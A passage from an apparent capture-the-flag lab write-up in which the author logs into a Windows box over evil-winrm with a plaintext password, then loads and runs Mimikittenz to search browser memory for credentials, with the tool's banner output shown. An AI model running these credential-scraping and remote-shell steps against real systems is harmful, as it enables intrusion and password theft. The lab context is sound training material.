     
    
    root@kali# echo -n '4dD!5}x/re8]FBuZ' | sha256sum 
    91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040  -
    

#### MimiKittenz

[Mimikittenz](https://github.com/putterpanda/mimikittenz) is a tool that will
look into the memory of user space processes and look for passwords. By
default, it checks IE, Chrome, and Firefox for POST requests that match common
webmail, social media, and other sites. I can drop it in the scripts directory
for my `evil-winrm` connection, then read it into my session, and run it. But
it won’t find anything:

    
    
    root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\chase -s ~/pshs/ -p 'Q4)sJu\Y8qz*A3?d'                                                                                                                           
    
    Info: Starting Evil-WinRM shell v1.6
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Chase\Documents> Invoke-mimikittenz.ps1
    *Evil-WinRM* PS C:\Users\Chase\Documents> menu
    
       ___ __ __  ____  _
      /  _]  |  ||    || |
     /  [_|  |  | |  | | |
    |    _]  |  | |  | | |___
    |   [_|  :  | |  | |     |
    |     |\   /  |  | |     |
    |_____| \_/  |____||_____|
    
     __    __  ____  ____   ____   ___ ___
    |  |__|  ||    ||    \ |    \ |   |   |
    |  |  |  | |  | |  _  ||  D  )| _   _ |
    |  |  |  | |  | |  |  ||    / |  \_/  |
    |  `  '  | |  | |  |  ||    \ |   |   |
     \      /  |  | |  |  ||  .  \|   |   |
      \_/\_/  |____||__|__||__|\_||___|___|
    
    
                               By: CyberVaca@HackPlayers
    
    [+] Invoke-Binary
    [+] Invoke-mimikittenz
    [+] l04d3r-LoadDll
    
    *Evil-WinRM* PS C:\Users\Chase\Documents> Invoke-mimikittenz
    ───▐▀▄──────▄▀▌───▄▄▄▄▄▄▄─────────────
    ───▌▒▒▀▄▄▄▄▀▒▒▐▄▀▀▒██▒██▒▀▀▄──────────
    ──▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄────────
    ──▌▒▒▒▒▒▒▒▒▒▒▒▒▒▄▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄──────
    ▀█▒▒█▌▒▒█▒▒▐█▒▒▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌─────
    ▀▌▒▒▒▒▒▀▒▀▒▒▒▒▒▀▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐───▄▄
    ▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌▄█▒█
    ▐▒▒▒▒mimikittenz-1.0-alpha▒▒▒▒▒▒▒▒▒▐▒█▀─
    ▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐▀───
    ▐▒▒▒▒▒▒CAN I HAZ WAM?▒▒▒▒▒▒▒▒▒▒▒▒▌────
    ─▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐─────
    ─▐▒▒▒jamieson@dringensec.com▒▒▒▒▌─────
    ──▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐──────
    ──▐▄▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▄▌──────